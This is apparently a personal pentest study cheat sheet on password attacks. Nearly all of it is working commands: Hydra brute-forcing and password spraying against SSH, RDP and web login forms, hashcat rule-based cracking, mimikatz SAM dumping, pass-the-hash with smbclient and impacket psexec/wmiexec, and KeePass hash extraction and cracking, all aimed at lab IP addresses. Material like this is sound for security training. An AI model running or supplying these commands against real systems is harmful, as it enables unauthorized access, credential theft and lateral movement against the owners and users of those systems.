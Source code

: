 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

## Cracking Methodology

```shell
# identifying hashes
hash-identifier

Enter Hash : 

# if it cannnot identify
hashcat hash.txt

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+=================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
   #<SNIP>
```
## Cracking NTLM
```powershell
# Getting all users
Get-LocalUser

# mimikatz (open with elevated privileged)
.\mimikatz.exe

## inside mimikatz

# see out privilege
mimikatz # privilege::debug

# elevate to system
mimikatz # token::elevate

# dump the SAM database
lsadump::sam
```

```shell
# hashcat to crack
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

## Passing NTLM
```shell
# pass the hash to SMB service
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash <-hash->

# use PSexec (this will get nt-authority)
# don't forget to add LM hash as 16*0
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

#wmiexec (get the ntlm owner shell)
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

## Password Manager

```powershell
# search for the db file
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```bash
# keepass to JtR
keepass2john Database.kdbx > keepass.hash
# example hash
cat keepass.hash
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
# Eliminate the database, just store the hash as hash

# look for the mode
hashcat --help | grep -i "KeePass"

# Crackin' time
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
# Working with Hashes





```